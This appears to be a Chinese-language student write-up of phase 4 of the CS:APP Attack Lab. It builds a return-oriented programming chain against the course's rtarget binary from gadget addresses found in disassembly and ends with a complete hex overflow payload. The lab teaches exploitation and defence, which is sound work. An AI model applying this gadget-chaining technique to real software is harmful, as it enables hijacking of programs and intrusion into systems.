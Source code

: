 查表可知，取其中一部分字节序列 48 89 c7 就表示指令`movq %rax, %rdi`，这整句指令的地址为`0x400f15`，于是从`0x400f18`开始的代码就可以变成下面这样：

~~~assembly
movq %rax, %rdi
ret
~~~

这个小片段就可以作为一个`gadget`为我们所用。

其它一些我们可以利用的代码都在文件`farm.c`中展示了出来

#### 要求

- 与Phase2相同

#### 分析

- push & pop指令

- 由于`gadget`的限制，原有的汇编不能实现，可以考虑使用多个寄存器；

- 发现可以使用`%rax`和`%rdi`共同使用

  > ![](C:\Github_io\source\img\csapp\push&pop.png)

~~~assembly
popq %rax	#将栈顶指针指的值赋值给%rax（这里可以存放cookie）
ret
###############
movq %rax, %rdi
ret
~~~

![](C:\Github_io\source\img\csapp\attack_phase4.png)

- 查找`rtarget.s`中对应的字节值
- `pop %rax`用`58`表示，于是查找`58`
- 得到指令地址为`0x4019ab`

~~~assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq                   retq
~~~

- `movq %rax, %rdi`表示为`48 89 c7`，刚好能找到！其中 90 表示“空”，可以忽略
- 得到指令地址为`0x4019c5`

~~~assembly
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
~~~

- 注入的二进制数据十六进制表示

~~~
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
~~~
